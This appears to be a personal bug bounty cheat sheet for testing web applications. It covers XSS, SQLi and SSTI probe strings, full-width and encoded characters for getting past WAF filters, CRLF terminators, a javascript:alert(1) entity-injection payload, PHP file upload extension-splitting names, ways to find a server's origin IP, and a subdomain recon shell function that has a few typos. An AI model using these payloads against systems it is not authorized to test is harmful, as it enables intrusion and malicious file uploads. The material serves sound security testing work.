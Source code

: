 ```yaml
---
layout: memory
title: Bug Bounty Cheat Sheet
---
```


<p align="center">
<img width="120" src="/images/bugbounty.png">
</p>
A cheat sheet for quick testing related to some of my Bug Bounty activities

- [Test for XSS or SQLi as a oneliner](#test-for-xss-or-sqli-as-a-oneliner)
- [A full-width version of symbols related to XSS, CRLF, WAF bypass](#a-full-width-version-of-symbols-related-to-xss-crlf-waf-bypass)
- [Line terminators for XSS / CRLF injection](#line-terminators-for-xss--crlf-injection)
- [Bypass WAF](#bypass-waf)
- [Injecting HTML character entities in different places of the URL](#injecting-html-character-entities-in-different-places-of-the-url)
- [Encodings for Common Symbols used for testing](#encodings-for-common-symbols-used-for-testing)
- [File upload extension splitting](#file-upload-extension-splitting)
- [Autorecon for a domain](#autorecon-for-a-domain)


## Test for XSS or SQLi as a oneliner

Testing Oneliner: `qwert'"<x</`

Explanation:
```
qwert - easy to type & find in HTML
'" - JS/HTML breakout & SQLi
<x - HTML injection test
</ - <script> breakout

extra for SSTI/CSTI

{{[7*7]}}${7*7}qwe'"<x</
```

## A full-width version of symbols related to XSS, CRLF, WAF bypass

```
＜ = %EF%BC%9C = \uFF1C ⇒ %3C (<)
＞ = %EF%BC%9E = \uFF1E ⇒ %3E (>)
＼ = %EF%BC%BC = \uFF3C ⇒ %5C (\)
／ = %EF%BC%8F = \uFF0F ⇒ %2F (/)
＇ = %EF%BC%87 = \uFF07 ⇒ %27 (')
＂ = %EF%BC%82 = \uFF02 ⇒ %22 (")

%0A (LF) ⇒ %EF%BB%AA = \uFEEA = ﻪ
%0D (CR) ⇒ %EF%BB%AD = \uFEED ⇒ ﻭ
```

This was produced by using this script:

```python
import argparse
import urllib.parse

def create_full_width(hex_value):
    hex_value = hex_value.upper()
    base_decimal = int(hex_value, 16)
    s = chr(base_decimal)

    if hex_value == '0A':
        s = 'LF'
    if hex_value == '0D':
        s = 'CR'

    fw_decimal = base_decimal + 0xFEE0
    fw_hex = format(fw_decimal, 'X')
    fw_char = chr(fw_decimal)
    fw_enc = urllib.parse.quote(fw_char).upper()

    return f"{fw_char} = %{fw_enc} = \\u{fw_hex} ⇒ %{hex_value} ({s})"

def showcase():
    # Example usage
    print(create_full_width('3C'))  # Output: ＜ = %EF%BC%9C = \uFF1C ⇒ %3C (<)
    print(create_full_width('3E'))  # Output: ＞ = %EF%BC%9E = \uFF1E ⇒ %3E (>)
    print(create_full_width('5C'))  # Output: ＼ = %EF%BC%BC = \uFF3C ⇒ %5C (\)
    print(create_full_width('2F'))  # Output: ／ = %EF%BC%8F = \uFF0F ⇒ %2F (/)
    print(create_full_width('27'))  # Output: ＇ = %EF%BC%87 = \uFF07 ⇒ %27 (')
    print(create_full_width('22'))  # Output: ＂ = %EF%BC%82 = \uFF02 ⇒ %22 (")
    print(create_full_width('0A'))  # Output: %0A (LF) ⇒ %EF%BB%AA = \uFEEA = ﻪ
    print(create_full_width('0D'))  # Output: %0D (CR) ⇒ %EF%BB%AD = \uFEED ⇒ ﻭ


def main():
    parser = argparse.ArgumentParser(description="Convert hex values to full-width characters and their URL-encoded representations.")
    parser.add_argument("--hex", help="Input hex value to convert", type=str, default=None)
    parser.add_argument("--demo", help="Showcase with demo input", action="store_true")
    args = parser.parse_args()

    if args.demo:
        showcase()
        
    if args.hex:
        print(create_full_width(args.hex))

if __name__ == "__main__":
    main()
```


## Line terminators for XSS / CRLF injection

```
LF: %0A (\u000A)
VT: %0B (\u000B)
FF: %0C (\u000C)
CR: %0D (\u000D)
CR+LF: %0D%0A (\u000D\u000A)
NEL: %C2%85 (\u0085)
LS: %E2%80%A8 (\u2028)
PS: %E2%80%A9 (\u2029)
```

## Bypass WAF 

Bypass by discovering the origin IP address of a server using the following:

- search domain on [Censys](https://search.censys.io/)
- domain history on [SecurityTrails](https://securitytrails.com/)
- test pingbacks (XML-RPC, SSRF)
- fake email to domain & check receipt
- receive domain email & check headers


## Injecting HTML character entities in different places of the URL

```html
<a href="{A}javas{B}cript{C}:alert(1)">
```

1. &#01, &#02 ... up to ... &#32
1. &#09, &#10, &#13
1. &#09, &#10, &#13

Example:
```html
<a href="&#27;javas&#09;cript&#13;:alert(1)">
Click Me
</a>
```


## Encodings for Common Symbols used for testing

```
`<` = %3C \u003c &#x3c; &#60; &lt;
`>` = %3E \u003e &#x3e; &#62; &gt;
`'` = %27 \u0027 &#x27; &#39; &apos;
`"` = %22 \u0022 &#x22; &#34; &quot;
`\` = %5C \u005c &#x5c; &#92; &bsol;
`/` = %2F \u002f &#x2f; &#47; &sol;
`:` = %3A \u003A &#x3A; &#58; &colon;
`%` = %25 \u0025 &#x25; &#37; &percnt;
`&` = %26 \u0026 &#x26; &#38; &amp;
`.` = %2E \u002e &#x2e; &#46; &period;
``` = %60 \u0060 &#x60; &#96; &grave;
`+` = %2B \u002B &#x2b; &#43; &plus;
```

## File upload extension splitting

```
qwe.php.png
qwe.php\x20.png
qwe.php\00.png
qwe.php\x00.png
qwe.php%00.png
qwe.php&#00;.png
qwe. e.php&#x00; .png
qwe.php\u0000.png
qwe.php%20.png
qwe.php&#20;.png
qwe.php&#x20;.png
qwe.php; .png
qwe.php%3B.png
qwe.php\x3B.png
qwe.php&#59;.png
qwe.php&#x3b;.png
qwe.php\u003b.png
qwe.php\u563b.png
qwe.php%C0%bb.png
qwe.php%E5%98%bb.png
qwe.php%E0%80%bb.png
qwe.php%E0%80%80.png
qwe.php%C0%A0.] 9.png
qwe.php%E5%98%A0.png
qwe.php%E0%80%A0.png
qwe.php\u5600.png
qwe.php\u5620.png
qwe.php%C0%80.png
qwe.php\u0020.png
```


## Autorecon for a domain

Make sure that this stuff is present:
* [amass](https://github.com/owasp-amass/amass)
* [assetfinder](https://github.com/tomnomnom/assetfinder)
* [CHAOS](https://github.com/tiagorlampert/CHAOS)
* [subfinder](https://github.com/projectdiscovery/subfinder)
* [dnsx](https://github.com/projectdiscovery/dnsx)
* [httpx](https://github.com/projectdiscovery/httpx)

```bash
 function autorecon {
	export d=$1
	amass enum - passive -norecursive -noalts -d $d -o domains-$d
	amass enum -passive -norecursive -noalts -df domains-$d -o domains-all-$d
	assetfinder -subs-only $d | anew domains-all-$d
	chaos -silent -d $d anew domains-all-$d
	subfinder -silent -d $d anew domains-all-$d
	cat domains-all-$d❘ dnsx -json -o dnsx-$d.json
	cat dnsx-$d.json | ja -r '.host' ❘ httpx -favicon -jarm -include-chain -p http:80, 8080, 8888, https:443,8443,8088 -json -o httpx-$d.json
}
```